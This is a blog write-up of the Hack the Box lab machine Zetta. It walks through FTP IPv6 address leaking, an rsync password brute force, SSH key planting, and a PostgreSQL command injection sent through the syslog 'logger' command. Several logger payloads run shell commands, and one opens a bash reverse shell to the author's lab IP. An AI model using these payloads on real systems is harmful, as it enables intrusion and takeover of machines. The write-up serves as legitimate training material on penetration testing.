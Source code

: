+++
author = "Nick"
categories = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
date = 2020-02-22T11:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/10/zetta.png"
slug = "hack-the-box-zetta"
summary = "Welcome back! Today we are going to do the box Zetta. Lets dig i"
tags = ["hack the box", "ftp", "ipv6", "RFC2428", "rsync", "ssh", "reverse shell", "psql", "postgress", "brute force", "RCE"]
title = "Hack the Box - Zetta"

+++


Welcome back! Today we are going to do the box Zetta. Lets dig in!

As always, we start with an ```nmap``` scan: ```nmap -sC -sV -oA zetta_initial_scan 10.10.10.156```. We get a small set of results.

```
Nmap scan report for 10.10.10.156
Host is up (0.052s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp open  http    nginx
|_http-title: Ze::a Share
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We repeat the scan but this time with all ports. The same results come back. So let's see what is being hosted on port 80.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-66.png" >}}

We have some type of sharing service. While looking through the source code we spot a string variable.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-67.png" >}}

This generates our username and password for the sharing site. We can use this to connect via ```FTP```. You seemingly can use any 32 length character and access the ```FTP``` site as long as the username and password match.

We connect to the ```FTP``` service and are pretty much unable to do anything.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-68.png" >}}

We do see that the server supports [RFC2428](https://tools.ietf.org/html/rfc2428). Which means that there could be some IPv6 trickery afoot. So the first thing we will do is to connect to the ```FTP``` service via ```netcat```. This way we can issue the ```EPRT``` commands. We will also setup a ```netcat``` listener on our machine and use the ```-6``` flag to enable IPv6 listening.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-69.png" >}}

After we've connected to the service, we will then attempt to download a dummy file called '1' from the server. If all goes well, we should see the above. A retrun connection leaking the machines IPv6 address.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-70.png" >}}

The breakdown of the ```EPRT``` command is:
```EPRT``` is using the protocol.
```|2|``` signifies use of IPv6.
```dead:beef:2::10ab``` is our IPv6 address.
```|5555|``` is the port we are telling ```EPRT``` to open a data connection to. Which also happens to be where our ```netcat``` is listening.

We do see the connection made and the machines IPv6 address leaked to us. With this info we can rescan the machine with ```nmap``` but specify IPv6 scan. We use ```nmap -p- -6 dead:beef::250:56ff:febd:923b```. We see one additional port open, port ```8730```.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-71.png" >}}



When we connect to the port we see that it is an Rsync server.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-72.png" >}}

Now that we know it's an accessable rsync server. We'll try and list the available shares. Use the ```--list-only``` flag for ```rsync```. After a few tries and failures, it seems we need to add this IPv6 address to our hosts list.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-73.png" >}}

After we add the IP to our Hosts file, we get back some listings. This looks like the root of a Linux file system. We try to 'sync' to each location shown and get an error. Since it resembled a file system, I tried to access tmp as well as etc. And we could read the content of the etc directory. So we'll sync the content of that file back and see what might be in it.

After sifting through the files. I came across an interesting section in the ```rsyncd.conf``` file.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-74.png" >}}

We see that this is also a hidden share. The share requires a username of Roy and a password. We'll have to write a quick script to automate this processes since the built in nmap rsync brute didn't work. There are multiple ways to approach this. I chose to make a small loop around ```rockyou.txt``` and pass it to ```sshpass``` to make the connection. It probably could have been a bit prettier doing it in ```python``` but this was functional. After letting that itterate through, we finally get a password.

Now we can add our ```SSH``` key to the ```authorized_keys file``` and sync it back to the server. We use: ```rsync -av ~/Documents/htb/zetta/rsync/roy_home rsync://roy@zetta6.htb:8730/home_roy```.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-75.png" >}}

Looks like our upload took. Lets see if we can SSH.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-76.png" >}}

We are, we can snag our user.txt if you haven't already gotten it from a previous rsync ;).

We can now start internal enumeration. We would normally get started with ```LinEnum``` and ```pspy64``` to see if there are any low hanging fruit. However, we don't have immediate access to ```curl```, ```wget``` and remote use of ```scp``` is requiring a password. So with no quick and easy mass enumeration, we do it manually. When we are looking through files, the ```.tudu.xml``` file holds some hints. We see that the postgress database running needs to be checked. We see format for the shared password scheme. We also see that a syslog database is suppose to push events to the postgress database. With these things in mind, we start to look at them one at a time.

We try to take a peek at the ```pgsql.conf``` file located in ```/etc/rsyslog.d```. Permission denied. We do however see that there is a ```.Git``` directory. With some luck we can clone the repo and see the config file.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-77.png" >}}

We go to read the file and immediately see a password string:

{{< figure src="__GHOST_URL__/content/images/2019/10/image-78.png" >}}

We will try to connect to the database using those.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-79.png" >}}

No such luck. Doing some research about local7 logging lead me to [this RCE](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5#targetText=Authenticated%20Arbitrary%20Command%20Execution%20on%20PostgreSQL%209.3%20%3E%20Latest&targetText=PostgreSQL%2C%20commonly%20known%20as%20Postgres,Linux%20and%20Windows%20versions%20available.). It seems we can interact with the logger using the ```logger``` command. In conjunction with the above RCE we can use this to leverage the system for a shell. The steps we'll take are create a file made by the service, change the permissions of the file, inject a reverse shell and have it call back to us as the service account.

The file need to be in a writable place, so ```tmp``` it is. We create a file called ```shell```. In this file we will place the commands we the logger to execute. First we'll have the logger print the contents of the home directory to a file called ```hi```:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$whoami > /tmp/hi; $$;-- -"```

Then we can call the ```shell``` file by doing this:

```logger -p local7.info "$(cat shell.file)"```

{{< figure src="__GHOST_URL__/content/images/2019/10/image-99.png" >}}

It worked. So now we can create a reverse shell the same way.

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$bash -i >& /dev/tcp/10.10.15.236/4444 0>&1 > /tmp/hi; $$;-- -"```

We then need to have psql change the permissions on the file:

```logger -p local7.info "',now());CREATE table if not exists test(t TEXT);COPY test(t) from program $$chmod 777 /tmp/hi; $$;-- -"```

The first time I tried this I wasn't able to get a shell back due to permissions. Once we execute them all we get a shell back.

{{< figure src="__GHOST_URL__/content/images/2019/10/image-96.png" >}}

Now that we have a shell ps postgres. We start to enumerate again. During my enumeration I checked for the location of the ```.psql_history``` file and parsed through it. It was a pretty short file:

{{< figure src="__GHOST_URL__/content/images/2019/10/image-97.png" >}}

Now if we try this password it doesn't work. However if we recall back to our ```tudu.xml``` file we have that shared password scheme. So with some luck the format of ```secret``` @ ```userid``` is still in place and the password hasn't been changed. We can ```su``` to root using this knowledge. Sure enough it does!

{{< figure src="__GHOST_URL__/content/images/2019/10/image-98.png" >}}

At first I thought my session was hanging but I forgot it was a remote shell and it wouldn't give me verification back when I switch users. There we have it, the root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

